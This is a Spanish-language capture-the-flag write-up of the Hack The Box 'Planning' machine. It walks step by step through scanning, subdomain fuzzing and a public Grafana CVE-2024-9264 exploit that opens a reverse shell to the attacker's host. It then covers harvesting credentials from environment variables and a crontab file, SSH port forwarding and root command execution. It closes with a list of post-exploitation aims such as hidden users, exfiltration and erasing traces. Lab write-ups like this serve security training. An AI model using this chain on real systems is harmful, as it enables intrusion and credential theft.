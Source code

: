 # Writeup - HTB "Planning"

## 1. Reconocimiento inicial

### Ping

```bash
ping 10.10.11.68
```

### Escaneo de puertos

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.68
```

#### Puertos abiertos encontrados:

* **22/tcp** - SSH
* **80/tcp** - HTTP

### Detección de versiones

```bash
nmap -p22,80 -sCV 10.10.11.68
```

#### Resultados relevantes:

* **22/tcp**: `OpenSSH 9.6p1 Ubuntu 3ubuntu13.11`
* **80/tcp**: `nginx 1.24.0 (Ubuntu)`

---

## 2. Enumeración web

### Modificación de `/etc/hosts`

Se añadió la siguiente entrada para poder acceder al sitio:

```
10.10.11.68 planning.htb
```

Al explorar la web principal, **no se encontró nada relevante**.

### Enumeración de subdominios

```bash
ffuf -u http://planning.htb/ -H "Host: FUZZ.planning.htb" -w /usr/share/amass/wordlists/all.txt -c -t 50 -fs 178
```

Se descubrió un subdominio interesante: **`grafana.planning.htb`**

---

## 3. Acceso a Grafana

Se añadió nuevamente al `/etc/hosts`:

```
10.10.11.68 grafana.planning.htb
```

En el login se detectó la **versión 11.0.0 de Grafana**.

### Búsqueda de vulnerabilidades

Se encontró el siguiente exploit público:

> [https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)

### Ejecución del exploit:

```bash
python poc.py --url http://grafana.planning.htb:80 \
              --username admin \
              --password 0D5oT70Fq13EvB5r \
              --reverse-ip 10.10.14.24 \
              --reverse-port 9001
```

### Listener:

```bash
nc -lvnp 9001
```

Se obtuvo una **reverse shell** exitosa.

---

## 4. Escalación de privilegios

### Variables de entorno:

```bash
env
```

Se descubrieron credenciales de administrador:

```
GF_SECURITY_ADMIN_USER=enzo
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
```

---

## 5. Acceso SSH

Se usaron las credenciales anteriores para conectarse por SSH:

```bash
ssh enzo@10.10.11.68
# Contraseña: RioTecRANDEntANT!
```

### Bandera de usuario:

```
cat ~/user.txt
```

---

## 6. Exploración post-explotación

Se encontró un archivo en `/opt/crontabs/crontab.db` que contenía otra contraseña:

```
P4ssw0rdS0pRi0T3
```

---

## 7. Escalamiento lateral / acceso a puertos locales

Revisando los puertos abiertos:

```bash
ss -tulnp
```

Se encontró un servicio local en el puerto `8000`. Para acceder desde la máquina atacante se hizo un **port forwarding**:

```bash
ssh -L 8888:localhost:8000 enzo@10.10.11.68
# Contraseña: P4ssw0rdS0pRi0T3
```

Accediendo a `http://localhost:8888` desde el navegador se encontró una interfaz desde donde era posible ejecutar comandos como **root**.

### Ejecución de comandos:

Se creó un job que copiaba la flag de root:

```bash
cat /root/root.txt > /tmp/flag
```

Desde la sesión SSH se verificó la flag:

```bash
cat /tmp/flag
```

---

## 8. Post-Explotación

📌 Acciones posibles tras obtener acceso como **root**:

- ✅ Establecer persistencia
- 👤 Crear usuario oculto
- 🔐 Añadir clave pública SSH
- 📦 Exfiltrar información sensible
- 🌐 Explorar red interna
- 🔀 Pivoting hacia otras máquinas
- 🧹 Eliminar huellas
- 💣 Destruir el sistema (⚠️ no recomendado)
---
